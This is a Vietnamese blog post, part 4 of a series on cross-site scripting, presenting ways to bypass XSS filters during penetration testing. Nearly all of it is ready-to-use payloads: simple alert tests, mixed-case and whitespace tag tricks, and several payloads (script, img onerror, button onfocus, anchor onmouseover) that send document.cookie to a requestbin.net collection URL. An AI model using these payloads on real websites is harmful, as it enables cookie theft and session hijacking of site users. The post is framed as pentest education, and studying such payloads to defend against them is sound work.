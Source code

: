 ```yaml
---
layout: post
title: Cross Site Scripting (XSS) [Part 4] - Các phương pháp bypass filter XSS,
date: 2021-05-23 00:32:20 +0700
description: Tìm hiểu về lỗi Cross Site Scripting trên ứng dụng web - P4,
img: 2021/05/23/210523_xss_filter.jpg
fig-caption: # Add figcaption (optional)
tags: [Security, WebSecurity]
---
```

Trong quá trình pentest ứng dụng có thể gặp nhiều trường hợp các payload XSS bị filter, làm thế nào để có thể bypass quá trình filter đó. Bài viết này chúng ta sẽ sẽ cùng nhau trao đổi một số phương pháp để thực hiện việc này. 

>PS: Chủ đề này tôi cũng không định ngồi viết một lèo là xong, sẽ viết dần dần theo năm tháng dựa trên những kinh nghiệm của mình tích lỹ được. Do vậy lâu lâu các bạn vào ngó nha có thể có nội dung mới nha. Ok, bắt đầu thôi.

**Nhắc lại:** Các cách bypass XSS phụ thuộc vào khả năng làm sạch input (thực hiện bởi WAF hoặc Ứng dụng). Có một vài cơ chế của việc này như:
* Trả lại lỗi, loại bỏ, encode, hoặc thay thế các input không hợp lệ. 
* Một số có thể dùng blacklist hoặc whitelist các ký tự thường gặp trong payload để ngăn chặn XSS.

Tùy thuộc vào cơ chế filter mà có các cách bypass khác nhau. Nếu ví quá trình filter như người bảo vệ ứng dụng web thì quá trình bypass là quá trình luồn lách để qua mặt những người bảo vệ này. Khó thể nói có công thức nào tuyệt đối mà là sự tùy cơ ứng biến cho phù hợp từng hoàn cảnh. Hãy nhớ điều này.


## Các load js nguyên thủy (Không mask) huyền thoại 
### Alert message
```<script>alert(1);</script>```

### Dùng window location
```<script>window.location="http://requestbin.net/r/9d4pj5wl?c=".concat(document.cookie)</script>```

### Dùng image
```<script>new Image().src="http://requestbin.net/r/9d4pj5wl?c=".concat(document.cookie);</script>```

## Các payload sử dụng mask
### Case sensitive
```<SCRIPT>alert(1);</SCRIPT>```
```<ScRipT>alert(1);</sCriPt>```
### Lọc thẻ script
* Insert thêm ký tự trình duyệt hay bỏ qua (Tab, escape)

```<script  >alert(1);</script   >```

* Không dùng thẻ script

```<img src=x onerror=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)>```

```<button autofocus onfocus=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)></button>```

```<a onmouseover=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)>xxs link</a>```

